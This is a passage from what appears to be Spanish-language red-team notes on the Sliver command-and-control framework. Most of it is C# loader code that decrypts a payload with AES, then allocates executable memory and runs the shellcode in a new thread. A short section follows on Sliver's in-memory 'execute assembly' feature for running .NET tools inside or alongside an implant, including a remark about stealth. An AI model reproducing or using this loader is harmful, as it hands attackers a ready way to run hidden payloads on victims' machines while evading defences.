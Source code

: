 ```csharp

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        [DllImport("kernel32")]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        private static void Execute(byte[] shellcode)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)shellcode.Length, 0x1000, 0x40);
            Marshal.Copy(shellcode, 0, (IntPtr)(addr), shellcode.Length);


            IntPtr hThread = IntPtr.Zero;
            IntPtr threadId = IntPtr.Zero;
            hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, threadId);

            WaitForSingleObject(hThread, 0xFFFFFFFF);

            return;
        }
    }
}

```

## Execute Assembly

{% embed url="https://github.com/BishopFox/sliver/wiki/Using-3rd-party-tools" %}

Esta función nos permite ejecutar tanto DLL's como ejecutables en memoria, por lo que si queremos utilizar herramientas de terceros que no estén incluidas en Sliver lo podremos hacer a través de esta funcionalidad.  Lo primero es tener compilado el ejecutable o la DLL y después especificar si queremos ejecutarlo sobre el proceso en el que tengamos el implante o crear otro proceso para hacerlo más sigiloso. La desventaja es que solo corre únicamente aplicaciones escritas en **.NET**.
